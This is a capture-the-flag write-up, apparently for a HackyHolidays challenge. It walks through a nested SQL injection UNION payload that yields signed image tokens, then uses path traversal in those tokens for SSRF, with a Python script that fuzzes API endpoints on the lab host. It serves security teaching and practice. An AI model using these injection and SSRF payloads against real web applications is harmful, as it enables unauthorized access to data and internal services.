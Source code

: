 Running it:
```
GET /r3c0n_server_4fdk59/album?hash=fakehash'+UNION+SELECT+"1337'+UNION+SELECT+0,+0,+'my_photo.jpg'--+",+'my_hash',+'my_album_name'--+ 
```
```html
<div class="col-md-8 col-md-offset-2">
    <h1 class="text-center">my_album_name</h1>
    <div class="row">

            <div class="col-md-4">
                <img class="img-responsive" src="/r3c0n_server_4fdk59/picture?data=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcL215X3Bob3RvLmpwZyIsImF1dGgiOiJlODgyNzNkZDM0YmRkMmRlN2M2MGRkNjQ1MGVhZDg4ZiJ9">
            </div>
        
    </div>
</div>
```

Decoded from base64, the image is:
```js
{"image":"r3c0n_server_4fdk59\/uploads\/my_photo.jpg","auth":"e88273dd34bdd2de7c60dd6450ead88f"}
```

Naturally, the image doesn't load on the page since this photo doesn't exist. We do note that the authorization hash was calculated though!

### 4. SSRF Time
Now we have a way to get authenticated results. We know that the server is assuming our photo is in the `uploads` directory. We can instead have our photo be named `..\/api\/FUZZ` and fuzz for api endpoints. 

I wrote a quick program to try every endpoint in a common API endpoints wordlist:

```python
#!/usr/bin/env python3

import re
import base64
import requests
import sys
  
BASE_URL = 'https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/'
PAYLOAD = "fakehash'+UNION+SELECT+\"1337'+UNION+SELECT+0,+0,+'..\/api\/FUZZ'--+\",+'my_hash',+'my_album_name'--+"
SECLISTS_DIR = '../../../../SecLists/Discovery/Web-Content/'

def fuzz(wordlist, avoid_code='404', prefix='', suffix=''):
    with open(SECLISTS_DIR + wordlist) as payloads:
        lines = [x.strip() for x in payloads]
        for i, line in enumerate(lines):
            process(PAYLOAD.replace('FUZZ', prefix + line + suffix), avoid_code)

def process(payload, avoid_code):
    album = requests.get(BASE_URL + 'album?hash=' + payload)
    picture_data = re.match(r".*picture\?data=(.*)\"", str(album.content)).groups()[0]

    api_call = requests.get(BASE_URL + 'picture?data=' + picture_data)

    if avoid_code not in str(api_call.content):
        print(str(base64.b64decode(picture_data)))
        print(str(api_call.content))
        return True
    return False
    
```